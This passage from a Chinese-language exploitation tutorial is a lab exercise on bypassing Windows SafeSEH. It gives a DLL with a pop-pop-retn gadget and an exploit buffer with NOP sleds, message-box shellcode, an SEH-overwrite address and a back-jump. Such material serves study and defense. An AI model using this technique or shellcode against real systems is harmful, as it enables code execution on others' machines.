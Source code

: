 ## 利用未启用SafeSEH模块绕过SafeSEH
如果能够找到一个未启用SafeSEH的模块，可以利用未启用的模块跳转到Shellcode。这次实验要编译一个未启用SafeSEH的dll和一个调用这个dll存在漏洞的程序

```c
//SEH_NOSafeSEH_JUMP.cpp
#include "stdafx.h"
BOOL APIENTRY DllMain( HANDLE hModule,DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    return TRUE;
}
void jump()
{
__asm{
	pop eax
	pop eax
	retn
	}
}
```
```c
//SEH_NoSafeSEH.cpp
#include <string.h>
#include<stdio.h>
#include <windows.h>
#include <tchar.h>
#pragma warning(disable : 4996)
char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x68\x10\x12\x11"//address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xE9\x1F\xFF\xFF\xFF"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}
```